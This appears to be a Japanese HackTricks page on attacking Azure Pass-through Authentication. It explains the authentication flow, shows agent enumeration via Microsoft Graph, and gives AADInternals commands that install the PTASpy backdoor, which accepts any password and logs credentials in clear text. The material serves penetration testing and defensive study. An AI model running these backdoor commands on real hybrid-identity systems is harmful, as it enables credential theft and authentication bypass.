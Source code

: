 # Az - PTA - Pass-through Authentication

{{#include ../../../banners/hacktricks-training.md}}

## 基本情報

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra パススルー認証を使用すると、ユーザーは**オンプレミスおよびクラウドベースのアプリケーションに同じパスワードでサインイン**できます。この機能は、ユーザーにとってより良い体験を提供し、覚えるべきパスワードが1つ減るため、ITヘルプデスクのコストを削減します。ユーザーが Microsoft Entra ID を使用してサインインすると、この機能はユーザーのパスワードをオンプレミスの Active Directory に対して直接検証します。

PTA では、**アイデンティティ**は**同期**されますが、**パスワード**は PHS のようには**同期**されません。

認証はオンプレミスの AD で検証され、クラウドとの通信は**オンプレミスサーバー**で実行される**認証エージェント**によって行われます（オンプレミスの DC にある必要はありません）。

### 認証フロー

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. **ログイン**するために、ユーザーは**Azure AD**にリダイレクトされ、**ユーザー名**と**パスワード**を送信します。
2. **資格情報**は**暗号化**され、Azure AD の**キュー**に設定されます。
3. **オンプレミス認証エージェント**がキューから**資格情報**を収集し、それを**復号化**します。このエージェントは**「パススルー認証エージェント」**または**PTAエージェント**と呼ばれます。
4. **エージェント**は**オンプレミスAD**に対して資格情報を**検証**し、**応答**を**Azure AD**に**返します**。応答が肯定的であれば、ユーザーの**ログインを完了**します。

> [!WARNING]
> 攻撃者が**PTA**を**侵害**すると、キュー内のすべての**資格情報**（**平文**）を見ることができます。\
> また、AzureAD に対して**任意の資格情報を検証**することもできます（スケルトンキーに似た攻撃）。

### 列挙

From Entra ID:
```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
"@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
"value": [
{
"agents": [
{
"externalIp": "20.121.45.57",
"id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
"machineName": "ConnectSync.hacktricks-con.azure",
"status": "active",
"supportedPublishingTypes": [
"authentication"
]
}
],
"displayName": "Default group for Pass-through Authentication",
"id": "d372d40f-3f81-4824-8b9e-6028182db58e",
"isDefault": true,
"publishingType": "authentication"
}
]
}
```
オンプレミスサーバーでエージェントが実行されているか確認します:
```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```
## ピボティング

**PTA** **エージェント**が実行されている**Azure AD Connect サーバー**に**管理者**アクセスがある場合、**AADInternals**モジュールを使用して、**すべてのパスワード**を**検証するバックドア**を**挿入**することができます（すべてのパスワードが認証に対して有効になります）：
```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```
> [!NOTE]
> インストールが**失敗した**場合、これはおそらく[Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe)が不足しているためです。

このバックドアは以下を行います：

- 隠しフォルダー `C:\PTASpy` を作成します
- `PTASpy.dll` を `C:\PTASpy` にコピーします
- `PTASpy.dll` を `AzureADConnectAuthenticationAgentService` プロセスに注入します

> [!NOTE]
> AzureADConnectAuthenticationAgent サービスが再起動されると、PTASpy は「アンロード」され、再インストールする必要があります。

> [!CAUTION]
> クラウドで**GA権限**を取得した後、新しいPTAエージェントを**登録**することが可能で、**以前の**手順を**繰り返して**任意のパスワードを使用して**認証**し、さらに**パスワードを平文で取得**することができます。

### シームレスSSO

PTAを使用してシームレスSSOを利用することが可能ですが、他の悪用に対して脆弱です。詳細は以下を確認してください：

{{#ref}}
az-seamless-sso.md
{{#endref}}

## 参考文献

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../banners/hacktricks-training.md}}
